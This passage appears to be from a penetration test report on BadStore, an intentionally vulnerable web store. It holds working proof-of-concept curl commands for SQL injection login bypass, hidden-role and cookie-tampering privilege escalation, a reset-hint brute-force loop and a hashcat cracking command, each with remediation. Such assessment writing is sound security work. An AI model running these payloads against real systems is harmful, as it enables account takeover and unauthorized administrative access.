**Privilege Level:** Supplier role (privileged portal access)

## Proof of Concept

### Authentication Bypass
```bash
curl -X POST "http://badstore:80/cgi-bin/badstore.cgi?action=supplierportal" \
  -d "email=admin' OR 1=1-- &passwd=test"
```

**Result:** Successfully bypasses authentication and grants access to supplier portal showing:
- "Welcome Supplier" message
- File upload functionality for price lists
- Access to supplier-only procedures
- References to upcoming web services functionality

## Impact

1. **Unauthorized Supplier Access:** Attackers gain access to privileged supplier portal without valid credentials

2. **File Upload Access:** The bypassed portal exposes file upload functionality at `/cgi-bin/badstore.cgi?action=supupload` with parameters:
   - `uploaded_file` - file selection
   - `newfilename` - custom filename specification
   - This creates potential for:
     - Arbitrary file upload
     - Path traversal attacks
     - Web shell upload if file type validation is weak
     - Server-side code execution

3. **Business Logic Bypass:** Attackers can:
   - Upload malicious price lists
   - Manipulate product pricing data
   - Access supplier-only business procedures
   - Abuse planned web services functionality

4. **Privilege Escalation Chain:** Combined with file upload, this creates a critical attack chain:
   - SQL injection → Supplier portal access
   - Supplier portal → File upload capability
   - File upload → Potential web shell deployment
   - Web shell → Remote code execution and server compromise

## Reproduction Steps

1. Navigate to supplier login: `http://badstore:80/cgi-bin/badstore.cgi?action=supplierlogin`
2. Submit SQL injection payload in email field: `admin' OR 1=1-- `
3. Use any password value
4. Successfully gain access to supplier portal with file upload functionality
5. Observe "Welcome Supplier" page with upload form

## Remediation

1. **Critical:** Use parameterized queries for supplier authentication
2. **Implement proper session management** - supplier access should require valid credentials
3. **Add authorization checks** on file upload endpoints
4. **Disable detailed error messages** to prevent information leakage
5. **Implement multi-factor authentication** for privileged supplier accounts
6. **Log and monitor** supplier portal access attempts
7. **Rate limiting** on authentication endpoints to prevent brute force
8. **File upload security:**
   - Whitelist allowed file extensions
   - Validate file content (not just extension)
   - Store uploads outside web root
   - Implement virus scanning

## References

- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- OWASP Authentication Bypass: https://owasp.org/www-community/attacks/Authentication_Bypass
- CWE-89: Improper Neutralization of Special Elements used in an SQL Command
- CWE-306: Missing Authentication for Critical Function

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- Successful supplier portal authentication bypass showing Welcome Supplier page with file upload functionality accessible via SQL injection: [images/finding-5c86c742-2cb1-4ab6-ac61-ed27dd446428-10-sqli-supplier-bypass-17402682925.txt](images/finding-5c86c742-2cb1-4ab6-ac61-ed27dd446428-10-sqli-supplier-bypass-17402682925.txt)

## Finding

### Privilege Escalation via Hidden Role Parameter in Registration

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} |
| **CVSS Base Score**  | **9.8** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=register, http://badstore:80/cgi-bin/badstore.cgi?action=loginregister |
| **Status**           | open |

**Description**

## Vulnerability Summary

The user registration form at `/cgi-bin/badstore.cgi?action=register` contains a hidden `role` parameter set to 'U' (User) by default. This parameter is fully client-controlled and can be modified during registration to escalate privileges to 'A' (Admin) without any server-side validation.

## Technical Details

**Vulnerable Endpoint:** `/cgi-bin/badstore.cgi?action=register`
**Vulnerable Parameter:** `role` (POST, hidden field)
**Default Value:** 'U' (User)
**Exploitable Value:** 'A' (Admin)
**Authentication Required:** No

## Proof of Concept

### 1. Registration Form Analysis

The registration form HTML contains:
```html
<form method="post" action="/cgi-bin/badstore.cgi?action=register">
  <input type="text" name="fullname" size="25" maxlength="40" />
  <input type="text" name="email" size="20" maxlength="40" />
  <input type="password" name="passwd" size="8" maxlength="8" />
  <select name="pwdhint">
    <option value="green">Green</option>
    <option value="blue">Blue</option>
    <option value="red">Red</option>
    <option value="orange">Orange</option>
    <option value="purple">Purple</option>
    <option value="yellow">Yellow</option>
  </select>
  <input type="hidden" name="role" value="U" />
  <input type="submit" value="Register" />
</form>
```

### 2. Exploitation

**Step 1:** Modify the hidden role parameter from 'U' to 'A'

```bash
curl -X POST 'http://badstore:80/cgi-bin/badstore.cgi?action=register' \
  -d 'fullname=TestAdmin&email=testadmin@test.com&passwd=test1234&pwdhint=green&role=A' \
  -H 'Content-Type: application/x-www-form-urlencoded'
```

**Step 2:** Server accepts the registration and creates admin account

**Response:**
```
HTTP/1.1 200 OK
Set-Cookie: SSOid=dGVzdGFkbWluQHRlc3QuY29tOjE2ZDdhNGZjYTc0NDJkZGEzYWQ5M2M5YTcyNjU5N2U0OlRlc3RBZG1pbjpB; path=/
```

**Step 3:** Decode the session cookie to verify admin role

```python
import base64
cookie = 'dGVzdGFkbWluQHRlc3QuY29tOjE2ZDdhNGZjYTc0NDJkZGEzYWQ5M2M5YTcyNjU5N2U0OlRlc3RBZG1pbjpB'
print(base64.b64decode(cookie).decode())
# Output: testadmin@test.com:16d7a4fca7442dda3ad93c9a726597e4:TestAdmin:A
```

The decoded cookie structure is: `email:password_hash:fullname:role`
The role field shows 'A' (Admin) instead of 'U' (User)

**Step 4:** Verify admin access

```bash
curl -b "SSOid=dGVzdGFkbWluQHRlc3QuY29tOjE2ZDdhNGZjYTc0NDJkZGEzYWQ5M2M5YTcyNjU5N2U0OlRlc3RBZG1pbjpB" \
  http://badstore:80/cgi-bin/badstore.cgi?action=myaccount
```

**Response confirms admin role:**
```html
<h2>Welcome, TestAdmin</h2>
<input type="hidden" name="role" value="A" />
```

## Impact

1. **Complete Authorization Bypass:** Any unauthenticated user can self-register with full administrative privileges

2. **No Legitimate Admin Accounts Required:** Attackers don't need to compromise existing admin accounts; they can create their own

3. **Full System Access:** Admin role grants access to:
   - All user account management functions
   - Supplier portal access
   - Order history viewing for all users
   - System configuration and settings
   - Potential backend administrative functions

4. **Persistent Access:** The malicious admin account persists in the database, providing long-term unauthorized access

5. **Difficult to Detect:** The registration appears legitimate and indistinguishable from normal user registration in logs

## Root Cause

The application trusts the client-supplied `role` parameter without any server-side validation or authorization check. The server should:
- Never accept role assignments from user input
- Hard-code default role as 'U' on the server side
- Implement proper authorization checks for role elevation
- Require existing admin approval for admin account creation

## Reproduction Steps

1. Navigate to: http://badstore:80/cgi-bin/badstore.cgi?action=loginregister
2. Open browser developer tools (F12) and inspect the registration form
3. Find the hidden input: `<input type="hidden" name="role" value="U" />`
4. Change the value from 'U' to 'A'
5. Fill out the registration form normally:
   - Full Name: TestAdmin
   - Email: testadmin@test.com
   - Password: test1234
   - Password Hint: Any color
6. Submit the form
7. Observe immediate admin access
8. Navigate to "My Account" and confirm role='A'

## Remediation

1. **Immediate Fix:** Remove the `role` parameter from the registration form entirely
2. **Server-Side Enforcement:** Hard-code new user role as 'U' in the server-side registration handler
3. **Authorization Matrix:** Implement proper authorization checks requiring existing admin privileges to create admin accounts
4. **Admin Account Creation:** Create separate admin account creation workflow accessible only to existing admins
5. **Input Validation:** Never trust client-supplied authorization/privilege parameters
6. **Security Review:** Audit all forms for similar hidden parameter vulnerabilities
7. **Principle of Least Privilege:** Default all new accounts to minimum privilege level

## References

- CWE-269: Improper Privilege Management
- CWE-639: Authorization Bypass Through User-Controlled Key
- OWASP Top 10 2021: A01 Broken Access Control
- OWASP Testing Guide: Testing for Privilege Escalation

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- Detailed privilege escalation via role parameter manipulation showing registration with role=A, cookie structure analysis, and admin access confirmation: [images/finding-93202059-a18d-4694-8734-947faf8843ab-12-privilege-escalation-1740622019.txt](images/finding-93202059-a18d-4694-8734-947faf8843ab-12-privilege-escalation-1740622019.txt)

- Registration form showing password hint limited to 6 color options and 8-character password maximum


## Finding

### Session Cookie Manipulation for Privilege Escalation

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{CC0000}{\textbf{High}} |
| **CVSS Base Score**  | **8.8** ([CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi (all authenticated endpoints) |
| **Status**           | open |

**Description**

## Vulnerability Summary

Session cookies (SSOid) lack cryptographic integrity protection, allowing authenticated users to modify the role field in their session cookie to escalate from regular user ('U') to administrator ('A'). The cookie is only base64-encoded without any HMAC or digital signature, making tampering trivial.

## Technical Details

**Cookie Name:** SSOid
**Cookie Structure:** `email:password_hash:fullname:role` (base64-encoded)
**Vulnerable Field:** `role` (last field in cookie structure)
**Normal User Role:** 'U'
**Admin Role:** 'A'
**Protection Mechanism:** None (no HMAC, signature, or encryption)

## Proof of Concept

### Step 1: Register Normal User Account

```bash
curl -X POST 'http://badstore:80/cgi-bin/badstore.cgi?action=register' \
  -d 'fullname=VictimUser&email=victim@test.com&passwd=pass1234&pwdhint=blue&role=U' \
  -H 'Content-Type: application/x-www-form-urlencoded'
```

**Response:**
```
Set-Cookie: SSOid=dmljdGltQHRlc3QuY29tOmI0YWY4MDQwMDljYjAzNmE0Y2NkYzMzNDMxZWY5YWM5OlZpY3RpbVVzZXI6VQ==
```

### Step 2: Decode Original Cookie

```python
import base64
original = base64.b64decode('dmljdGltQHRlc3QuY29tOmI0YWY4MDQwMDljYjAzNmE0Y2NkYzMzNDMxZWY5YWM5OlZpY3RpbVVzZXI6VQ==').decode()
print(original)
# Output: victim@test.com:b4af804009cb036a4ccdc33431ef9ac9:VictimUser:U
```

Cookie structure breakdown:
- Email: victim@test.com
- Password Hash: b4af804009cb036a4ccdc33431ef9ac9 (MD5 hash)
- Full Name: VictimUser
- Role: U (User)

### Step 3: Modify Cookie to Escalate Privileges

```python
import base64
import urllib.parse

# Change role from 'U' to 'A'
modified = "victim@test.com:b4af804009cb036a4ccdc33431ef9ac9:VictimUser:A"
encoded = base64.b64encode(modified.encode()).decode()
print(f"Modified Cookie: {encoded}")
# Output: dmljdGltQHRlc3QuY29tOmI0YWY4MDQwMDljYjAzNmE0Y2NkYzMzNDMxZWY5YWM5OlZpY3RpbVVzZXI6QQ==
```

### Step 4: Use Modified Cookie to Access Admin Functions

```bash
curl -b "SSOid=dmljdGltQHRlc3QuY29tOmI0YWY4MDQwMDljYjAzNmE0Y2NkYzMzNDMxZWY5YWM5OlZpY3RpbVVzZXI6QQ==" \
  http://badstore:80/cgi-bin/badstore.cgi?action=myaccount
```

**Response confirms privilege escalation:**
```html
<h2>Welcome, VictimUser</h2>
<input type="hidden" name="role" value="A" />
```

The application now treats the user as an administrator despite registering as a regular user.

## Impact

1. **Complete Privilege Escalation:** Any authenticated user (even with lowest privileges) can elevate to administrator

2. **No Detection:** Cookie modification leaves no server-side audit trail, making detection extremely difficult

3. **Full Administrative Access:** Escalated users gain access to:
   - All user account management functions
   - Ability to modify any user account (including password resets)
   - Access to restricted administrative pages
   - Supplier portal and sensitive business functions
   - Order history for all customers

4. **Persistent Attack:** Modified cookie persists for entire session duration

5. **Mass Compromise Potential:** Attackers can script cookie modification to automate privilege escalation across multiple accounts

6. **Additional Session Vulnerabilities:**
   - Cookie lacks HttpOnly flag (vulnerable to XSS-based theft)
   - Cookie lacks Secure flag (can be intercepted over HTTP)
   - Cookie lacks SameSite attribute (vulnerable to CSRF)
   - Session tokens are predictable (based on email and MD5 hash)

## Root Cause Analysis

1. **No Integrity Protection:** Cookie is only base64-encoded, which is encoding not encryption
2. **No Cryptographic Signature:** No HMAC or digital signature to verify cookie authenticity
3. **Client-Side Trust:** Server trusts the role value in client-controlled cookie
4. **Weak Session Design:** Critical authorization data stored client-side without protection

## Reproduction Steps

1. Register a normal user account at http://badstore:80/cgi-bin/badstore.cgi?action=loginregister
2. Extract the SSOid cookie from browser or response headers
3. Base64-decode the cookie value
4. Modify the last field from 'U' to 'A'
5. Base64-encode the modified value
6. Replace the SSOid cookie in browser with modified value
7. Navigate to http://badstore:80/cgi-bin/badstore.cgi?action=myaccount
8. Observe admin role granted: `<input type="hidden" name="role" value="A" />`
9. Access administrative functions without restriction

## Remediation

### Immediate Fixes
1. **Server-Side Session Storage:** Store role and authorization data in server-side sessions, not in cookies
2. **Cryptographic Integrity:** If using cookie-based sessions, implement HMAC-SHA256 signature
3. **Session Token Only:** Cookie should contain only a random, unpredictable session ID

### Comprehensive Solution
```
Session Cookie: SSOid=<random_128bit_session_id>; HttpOnly; Secure; SameSite=Strict
Server-Side Storage:
  session_id -> {
    email: "user@example.com",
    role: "U",
    created_at: timestamp,
    last_activity: timestamp
  }
```

### Additional Security Controls
4. **Add Security Flags:**
   - HttpOnly: Prevent JavaScript access
   - Secure: Transmit only over HTTPS
   - SameSite=Strict: Prevent CSRF attacks

5. **Session Validation:** On every request, validate:
   - Session exists server-side
   - Session not expired
   - Session tied to IP/User-Agent (optional, for high security)
   - Role retrieved from server-side storage, never from cookie

6. **Regular Session Rotation:** Regenerate session IDs on privilege changes

7. **Strong Session IDs:** Use cryptographically secure random number generator for session tokens (minimum 128 bits entropy)

## References

- CWE-565: Reliance on Cookies without Validation and Integrity Checking
- CWE-384: Session Fixation
- CWE-807: Reliance on Untrusted Inputs in a Security Decision
- OWASP Top 10 2021: A01 Broken Access Control
- OWASP Top 10 2021: A07 Identification and Authentication Failures
- OWASP Session Management Cheat Sheet

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- Complete cookie manipulation attack demonstrating privilege escalation from User (U) to Admin (A) via base64 decoding, modification, and re-encoding of SSOid session cookie: [images/finding-7ab765e4-1970-4d67-a5a6-ea7ea15a81c7-14-cookie-manipulation-privilege-escalation-1740622145.txt](images/finding-7ab765e4-1970-4d67-a5a6-ea7ea15a81c7-14-cookie-manipulation-privilege-escalation-1740622145.txt)

- Session management vulnerability analysis showing lack of integrity protection, missing security flags (HttpOnly, Secure, SameSite), and client-side role storage: [images/finding-7ab765e4-1970-4d67-a5a6-ea7ea15a81c7-15-insecure-session-management-1740622075.txt](images/finding-7ab765e4-1970-4d67-a5a6-ea7ea15a81c7-15-insecure-session-management-1740622075.txt)

## Finding

### Weak Password Policy and Insecure Password Reset Mechanism

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} |
| **CVSS Base Score**  | **9.1** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=loginregister, http://badstore:80/cgi-bin/badstore.cgi?action=login, http://badstore:80/cgi-bin/badstore.cgi?action=register, http://badstore:80/cgi-bin/badstore.cgi?action=pwdreset |
| **Status**           | open |

**Description**

## Vulnerability Summary

The application enforces a maximum password length of only 8 characters combined with a password reset mechanism that uses only 6 predefined color hints. This combination creates a severe authentication weakness that enables trivial account takeover attacks.

## Technical Details

### Weakness 1: 8-Character Password Maximum

**Location:** All password input fields
**HTML Evidence:**
```html
<!-- Login Form -->
<input type="password" name="passwd" size="8" maxlength="8" />

<!-- Registration Form -->
<input type="password" name="passwd" size="8" maxlength="8" />

<!-- Supplier Login -->
<input type="text" name="passwd" size="8" maxlength="8" />
```

**Impact on Password Entropy:**
- 8 characters with lowercase only: 26^8 = 208 billion combinations
- 8 characters with lowercase + uppercase: 52^8 = 53 trillion combinations
- 8 characters with alphanumeric: 62^8 = 218 trillion combinations
- 8 characters with all printable: 95^8 = 6.6 quadrillion combinations

While large numbers, these are easily brute-forced with modern hardware:
- GPU can test billions of MD5 hashes per second
- 8-char alphanumeric crackable in hours/days with consumer GPUs
- Rainbow tables readily available for 8-char passwords

### Weakness 2: Password Hints Limited to 6 Colors

**Location:** Registration and password reset
**HTML Evidence:**
```html
<select name="pwdhint">
  <option value="green">Green</option>
  <option value="blue">Blue</option>
  <option value="red">Red</option>
  <option value="orange">Orange</option>
  <option value="purple">Purple</option>
  <option value="yellow">Yellow</option>
</select>
```

**Impact:**
- Only 6 possible password hints (16.67% success rate per guess)
- Password reset only requires email + correct color hint
- No rate limiting observed on reset attempts
- Attacker can try all 6 colors in rapid succession

## Proof of Concept

### Attack Scenario 1: Password Reset Bypass

**Step 1:** Identify target email address (from user enumeration, data breach, or social engineering)

**Step 2:** Attempt password reset with all 6 color hints

```bash
for color in green blue red orange purple yellow; do
  curl -X POST 'http://badstore:80/cgi-bin/badstore.cgi?action=pwdreset' \
    -d "email=target@example.com&pwdhint=$color" \
    -H 'Content-Type: application/x-www-form-urlencoded'
done
```

**Result:** Within 6 attempts (average 3), attacker finds correct hint and gains password reset capability

### Attack Scenario 2: Brute Force 8-Character Passwords

Using hashcat with MD5 hashes (application uses MD5 for password storage):

```bash
# Extract password hash from SQL injection or database access
# Hash format visible in cookies: b4af804009cb036a4ccdc33431ef9ac9

# Brute force 8-character passwords
hashcat -m 0 -a 3 hash.txt ?a?a?a?a?a?a?a?a
```

**Performance:**
- Modern GPU (RTX 4090): ~200 billion MD5/sec
- 8-char alphanumeric (218 trillion): ~18 minutes
- 8-char all printable (6.6 quadrillion): ~9 hours

### Attack Scenario 3: Combined Attack

1. Enumerate valid email addresses (registration attempts show "email already exists")
2. For each email:
   - Try all 6 password hints (one will succeed)
   - Reset password to known 8-char password
   - Login with compromised account
3. If password reset requires old password:
   - Extract password hash via SQL injection (already confirmed vulnerable)
   - Brute force 8-char hash (hours with GPU)
   - Complete password reset

## Impact

### Critical Security Issues

1. **Trivial Account Takeover:**
   - Only 6 attempts needed to find correct password hint (16.67% per try)
   - No rate limiting or lockout mechanism observed
   - Can automate password reset for mass account compromise

2. **Weak Password Enforcement:**
   - Users cannot create strong passphrases (limited to 8 chars)
   - Violates NIST SP 800-63B guidelines (minimum 8, no maximum under 64)
   - Significantly reduces time to crack passwords

3. **Compliance Violations:**
   - PCI-DSS 8.2.3: Passwords minimum 7 chars with complexity OR minimum 8 chars
   - NIST 800-63B: Minimum 8 characters, recommend no maximum
   - GDPR: Inadequate technical measures to protect personal data

4. **Combined with Other Vulnerabilities:**
   - SQL injection exposes MD5 password hashes
   - MD5 is cryptographically broken (fast to crack)
   - 8-char maximum makes brute force feasible
   - 6-color hints make password reset trivial
   - Complete authentication system compromise

## Evidence from Registration Form

From registration page HTML:
- Password field: `maxlength="8"` - enforces 8 character maximum
- Password hint dropdown: Only 6 color options
- Hint description: "You will need both your email address and this hint to access your account if you forget your current password."

This confirms that password reset ONLY requires:
1. Email address (easily enumerable or known)
2. One of 6 color hints (16.67% chance per guess)

## Reproduction Steps

### Testing Password Maximum
1. Navigate to http://badstore:80/cgi-bin/badstore.cgi?action=loginregister
2. Attempt to enter password longer than 8 characters
3. Observe input field refuses additional characters (maxlength enforcement)
4. View page source and confirm: `maxlength="8"`

### Testing Password Hint Weakness
1. Register account with specific color hint (e.g., "green")
2. Navigate to password reset page
3. Submit email with wrong color hint - observe failure
4. Submit email with correct color hint - observe success
5. Repeat with different colors to confirm only 6 options exist
6. Calculate probability: 1/6 = 16.67% per attempt

## Remediation

### Critical Priority

1. **Remove Password Maximum:**
   ```html
   <!-- BEFORE -->
   <input type="password" name="passwd" size="8" maxlength="8" />
   
   <!-- AFTER -->
   <input type="password" name="passwd" minlength="12" maxlength="128" />
   ```

2. **Replace Color Hints System:**
   - Implement email-based password reset with secure token
   - Token should be:
     - Cryptographically random (128+ bits entropy)
     - Single-use only
     - Expire after 15-30 minutes
     - Transmitted via secure email link

3. **Upgrade Password Hashing:**
   ```
   MD5 (current) -> bcrypt, scrypt, or Argon2
   Cost factor: 12+ (bcrypt) or equivalent
   ```

4. **Enforce Strong Passwords:**
   - Minimum 12 characters (NIST recommends 8 minimum, 12+ is better)
   - No maximum under 128 characters
   - Check against common password lists (e.g., Have I Been Pwned)
   - Allow spaces and special characters

5. **Implement Rate Limiting:**
   - Limit password reset attempts: 3-5 per hour per email
   - Implement CAPTCHA after failed attempts
   - Add exponential backoff for repeated failures
   - Alert users of password reset attempts via email

### Secure Password Reset Flow

```
1. User submits email address
2. Server generates cryptographically secure random token
3. Server stores token with expiration (15 minutes)
4. Server sends email with reset link containing token
5. User clicks link with token
6. Server validates token (exists, not expired, not used)
7. User sets new password meeting strength requirements
8. Server invalidates token and updates password
9. Server sends confirmation email
10. Server invalidates all existing sessions
```

## References

- NIST SP 800-63B: Digital Identity Guidelines (Authentication and Lifecycle Management)
- OWASP Authentication Cheat Sheet
- CWE-521: Weak Password Requirements
- CWE-640: Weak Password Recovery Mechanism for Forgotten Password
- PCI-DSS Requirement 8.2: Password Complexity Requirements
- OWASP Top 10 2021: A07 Identification and Authentication Failures

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- Weak password policy analysis showing 8-character maximum enforcement across all forms and password reset limited to only 6 predefined color hints enabling trivial account takeover: [images/finding-81bb4899-0c37-4288-ad48-82b250314f63-16-weak-password-policy-1740622050.txt](images/finding-81bb4899-0c37-4288-ad48-82b250314f63-16-weak-password-policy-1740622050.txt)

- Registration form displaying 8-character password maximum (maxlength=8) and password hint dropdown limited to 6 colors (Green, Blue, Red, Orange, Purple, Yellow)


## Finding

### Supplier Portal Password Field Exposed as Plaintext

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{E67E22}{\textbf{Medium}} |
| **CVSS Base Score**  | **4.3** ([CVSS:3.1/AV:P/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:P/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=supplierlogin, http://badstore:80/cgi-bin/badstore.cgi?action=supplierportal |
| **Status**           | open |

**Description**

## Vulnerability Summary

The supplier login form uses `type="text"` instead of `type="password"` for the password field, causing passwords to be displayed in plaintext as users type them. This exposes supplier credentials to shoulder surfing, screen recording, and screenshot attacks.

## Technical Details

**Vulnerable Endpoint:** `/cgi-bin/badstore.cgi?action=supplierlogin`
**Vulnerable Element:** Password input field
**Issue:** HTML input type set to "text" instead of "password"

## Proof of Concept

### Vulnerable HTML

From supplier login page source:

```html
<form method="post" action="/cgi-bin/badstore.cgi?action=supplierportal">
  <table cellspacing="0" cellpadding="0">
    <tr>
      <td width="100">Email Address:</td>
      <td><input type="text" name="email" size="15" maxlength="40" /></td>
    </tr>
    <tr>
      <td>Password:</td>
      <td><input type="text" name="passwd" size="8" maxlength="8" /></td>
    </tr>
    <tr>
      <td></td>
      <td><input type="submit" value="Login" /></td>
    </tr>
  </table>
</form>
```

**Problem:** The password field has `type="text"` instead of `type="password"`

### Comparison with Regular Login

Regular user login (correct implementation):
```html
<tr>
  <td>Password:</td>
  <td><input type="password" name="passwd" size="8" maxlength="8" /></td>
</tr>
```

Supplier login (vulnerable):
```html
<tr>
  <td>Password:</td>
  <td><input type="text" name="passwd" size="8" maxlength="8" /></td>
</tr>
```

## Impact

### Security Risks

1. **Shoulder Surfing:**
   - Anyone within visual range can see the password as it's typed
   - Particularly dangerous in:
     - Office environments
     - Public spaces (cafes, airports, coworking spaces)
     - Conferences and trade shows
     - Shared workspaces

2. **Screen Recording:**
   - Password visible in screen recordings (meetings, training, demos)
   - Screen sharing during video calls exposes credentials
   - Support/troubleshooting sessions reveal passwords

3. **Screenshot Exposure:**
   - Accidental screenshots capture plaintext passwords
   - Automated screenshot tools (monitoring, time tracking) capture credentials
   - Malware screenshot capability captures passwords easily

4. **Browser Features:**
   - Password may appear in browser autocomplete suggestions
   - Search history may cache password values
   - Developer tools show password in plaintext in DOM

5. **Elevated Risk for Supplier Accounts:**
   - Supplier accounts may have elevated privileges
   - Access to pricing information, contracts, inventory
   - Potential to upload files to server (observed upload functionality)
   - Business-critical account compromise

### Business Impact

1. **Supplier Account Compromise:**
   - Unauthorized access to supplier portal
   - Manipulation of pricing data
   - Upload of malicious files
   - Contract information theft

2. **Compliance Violations:**
   - PCI-DSS requires password masking
   - Privacy regulations require reasonable security measures
   - May violate supplier contracts/SLAs

3. **Reputation Damage:**
   - Demonstrates poor security practices
   - May deter suppliers from using portal
   - Legal liability for compromised supplier data

## Reproduction Steps

1. Navigate to: http://badstore:80/cgi-bin/badstore.cgi?action=supplierlogin
2. Click in the Password field
3. Type any password (e.g., "test1234")
4. Observe password appears in plaintext, not masked with dots/asterisks
5. View page source (Ctrl+U or right-click -> View Source)
6. Find password input field
7. Confirm: `<input type="text" name="passwd" ...>`
8. Compare to regular login page password field: `<input type="password" name="passwd" ...>`

## Visual Evidence

When supplier types "supplier123" in password field:
- **Expected behavior:** ••••••••••• (masked)
- **Actual behavior:** supplier123 (plaintext visible)

## Remediation

### Immediate Fix (Critical)

Change the input type from "text" to "password":

```html
<!-- BEFORE (Vulnerable) -->
<input type="text" name="passwd" size="8" maxlength="8" />

<!-- AFTER (Secure) -->
<input type="password" name="passwd" size="8" maxlength="8" />
```

**Implementation:**
1. Locate supplier login form in source code
2. Find password input field (line with `name="passwd"`)
3. Change `type="text"` to `type="password"`
4. Test to ensure password is now masked
5. Deploy immediately

### Additional Recommendations

1. **Security Audit:** Review all login forms to ensure password fields use `type="password"`

2. **Code Review:** Check for:
   - Password fields in registration forms
   - Password change forms
   - Password reset forms
   - Any other credential input fields

3. **Automated Testing:** Add automated tests to verify:
   - All password fields have `type="password"`
   - No password values logged or displayed in responses
   - Password fields have autocomplete="new-password" or "current-password"

4. **Security Headers:** Add security headers to prevent credential exposure:
   ```
   X-Content-Type-Options: nosniff
   X-Frame-Options: DENY
   Content-Security-Policy: frame-ancestors 'none'
   ```

## Additional Context

This vulnerability is particularly concerning because:
- Suppliers may have elevated privileges compared to regular customers
- Supplier portal has file upload functionality (observed on the page)
- Business relationship trust is at stake
- The regular user login correctly uses `type="password"`, indicating this is likely a copy-paste or coding error, not a systematic issue

## References

- OWASP Authentication Cheat Sheet: Password Field Security
- CWE-549: Missing Password Field Masking
- PCI-DSS Requirement 8.2.1: Render passwords unreadable during transmission and storage
- HTML Standard: Password Field Best Practices
- NIST SP 800-63B: Section 5.1.1.2 - Memorized Secret Verifiers

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- Supplier login form HTML source showing password field incorrectly configured as type=text instead of type=password, exposing credentials in plaintext: [images/finding-457fcad0-4e00-4987-9ef1-f0f46641c0c4-18-supplier-password-disclosure-1740622110.txt](images/finding-457fcad0-4e00-4987-9ef1-f0f46641c0c4-18-supplier-password-disclosure-1740622110.txt)

\newpage

# Appendix A - Lists, Scripts and Raw Data


\newpage

# Appendix B - List of Abbreviations

+----------------+---------------------------------------------+
| Abbreviation   | Description                                 |
+================+=============================================+
| API            | Application Programming Interface           |
+----------------+---------------------------------------------+
| CAPTCHA        | Completely Automated Public Turing test to  |
|                | tell Computers and Humans Apart             |
+----------------+---------------------------------------------+
| CVSS           | Common Vulnerability Scoring System         |
+----------------+---------------------------------------------+
| FTP            | File Transfer Protocol                      |
+----------------+---------------------------------------------+
| IDOR           | Insecure Direct Object Reference            |
+----------------+---------------------------------------------+
| MD5            | Message-Digest Algorithm 5                  |
+----------------+---------------------------------------------+
| OAuth          | Open Authorization                          |
+----------------+---------------------------------------------+
| ORM            | Object-Relational Mapping                   |
+----------------+---------------------------------------------+
| OWASP          | Open Web Application Security Project       |
+----------------+---------------------------------------------+
| PII            | Personally Identifiable Information         |
+----------------+---------------------------------------------+
| SQL            | Structured Query Language                   |
+----------------+---------------------------------------------+
| TOTP           | Time-based One-Time Password                |
+----------------+---------------------------------------------+
| URI            | Uniform Resource Identifier                 |
+----------------+---------------------------------------------+
| WAF            | Web Application Firewall                    |
+----------------+---------------------------------------------+
| XSS            | Cross-Site Scripting                        |

+----------------+---------------------------------------------+
